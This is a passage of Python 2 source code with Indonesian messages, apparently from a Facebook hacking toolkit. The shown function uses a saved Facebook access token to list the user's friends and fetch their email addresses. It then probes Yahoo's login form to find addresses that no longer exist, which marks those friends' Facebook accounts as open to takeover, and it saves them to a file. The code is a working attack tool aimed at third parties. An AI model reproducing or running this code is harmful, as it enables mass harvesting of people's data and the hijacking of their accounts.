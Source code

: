                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + go + ' \x1b[1;91mTidak ada'
                    yahoo_pilih()


def yahoofriends():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('reset')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    mpsh = []
    jml = 0
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    teman = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
    kimak = json.loads(teman.text)
    save = open('MailVuln.txt', 'w')
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    for w in kimak['data']:
        jml += 1
        mpsh.append(jml)
        id = w['id']
        nama = w['name']
        links = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
        z = json.loads(links.text)
        try:
            mail = z['email']
            yahoo = re.compile('@.*')
            otw = yahoo.search(mail).group()
            if 'yahoo.com' in otw:
                br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
                br._factory.is_html = True
                br.select_form(nr=0)
                br['username'] = mail
                klik = br.submit().read()
                jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
                try:
                    pek = jok.search(klik).group()
                except:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
                    continue

                if '"messages.ERROR_INVALID_USERNAME">' in pek:
                    save.write(mail + '\n')
                    print 40 * '\x1b[1;97m\xe2\x95\x90'
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama  \x1b[1;91m:\x1b[1;97m ' + nama
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID    \x1b[1;91m:\x1b[1;97m ' + id
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]'
                    print 40 * '\x1b[1;97m\xe2\x95\x90'
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
        except KeyError:
            pass

